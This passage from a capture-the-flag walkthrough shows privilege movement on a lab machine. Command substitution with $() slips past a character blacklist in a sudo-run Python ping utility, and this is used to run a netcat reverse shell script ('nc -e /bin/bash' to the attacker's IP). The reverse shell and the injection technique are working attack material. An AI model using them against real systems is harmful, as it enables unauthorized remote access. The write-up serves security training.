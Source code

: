 The problem is that I can’t use any of the forbidden characters:

```

['&', ';', '-', '`', '||', '|']

```

What the script author left out was the bash syntax to run a command with `$()`. I can test this:

```

www-data@jasmin:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
***********************************************

Enter an IP: 10.10.14.$(echo 8)
PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=29.5 ms
64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=31.0 ms
64 bytes from 10.10.14.8: icmp_seq=3 ttl=63 time=85.5 ms
64 bytes from 10.10.14.8: icmp_seq=4 ttl=63 time=107 ms
64 bytes from 10.10.14.8: icmp_seq=5 ttl=63 time=129 ms
^C
--- 10.10.14.8 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4006ms
rtt min/avg/max/mdev = 29.554/76.642/129.727/40.347 ms

```

My `$(echo 8)` returns 8 and my ping to 10.10.14.8 works.

### Reverse Shell

None of the reverse shells I know of can run without at least one of the those characters, but I can just write what I want to run into a file, and then call that file.

```

www-data@jasmin:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443'
#!/bin/bash

nc -e /bin/bash 10.10.14.8 443
www-data@jasmin:/tmp$
www-data@jasmin:/tmp$ echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.14.8 443' > /tmp/d.sh
www-data@jasmin:/tmp$ chmod +x /tmp/d.sh
www-data@jasmin:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es
***********************************************

Enter an IP: $(/tmp/d.sh)

```
